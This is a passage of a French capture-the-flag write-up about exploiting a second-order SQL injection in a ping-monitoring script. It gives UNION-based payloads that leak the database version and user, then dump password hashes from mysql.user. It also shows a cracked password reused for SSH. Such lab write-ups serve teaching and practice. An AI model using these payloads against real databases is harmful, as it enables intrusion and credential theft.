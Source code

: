 Pour chaque `ping`, un résultat doit être stocké en base. D'après les données reçues par email ça doit ressembler à ça :

```sql
insert into logs (host, date, status) values ('target', now(), status);
```

Si le `ping` n'a pas eu de réponse, un email est généré en récupérant la totalité des logs pour l'entrée correspondante :

```sql
select * from logs where name='nom';
```

Ce serait donc ici que la second-order SQL injection a lieu.

On va faire en sorte que cette requête devienne :

```sql
select * from logs where name='' union select 0,version(),user(),0 -- a;
```

Pour cela, j'ai créé une nouvelle entrée. Aucun mail n'est parvenu avec l'injection `' union select 0,version(),user(),0 -- a` mais en changeant les simples quote par des doubles ça a fonctionné :

```
" union select 0,version(),user(),0 -- a; is down. Please check the report below for
more information.

ID, Host, Date Time, Status
0,5.5.65-MariaDB,root@localhost,0
```

Le script utilise le compte `root` de la base de données. On va en profiter pour récupérer les hashs :

```
" union select 0,concat(User,":",Password),authentication_string,0 from mysql.user -- a
```

`Password` est une colonne qui a été dépréciée, voir [MySQL user DB does not have password columns - Stack Overflow](https://stackoverflow.com/a/31122246). Il faut penser à obtenir `authentication_string` aussi.

```
ID, Host, Date Time, Status
0,root:*CDA244FF510B063DA17DFF84FF39BA0849F7920F,,0
0,:,,0
0,elliot:,*5A5749F309CAC33B27BA94EE02168FA3C3E7A3E9,0
```

Le hash de `elliot` se casse en `elliot123`.

Le hash root ne se casse pas avec `rockyou` et le compte `elliot` ne donne pas d'accès intéressant via `phpmyadmin` (il a accès à `information_schema` mais pas à la table `TABLES` par exemple).

Avec `database()`, j'obtiens le nom de la base courante qui est `monitoring`.

L'énumération SQL s'arrête ici car les identifiants sont acceptés par SSH.

### Remember me
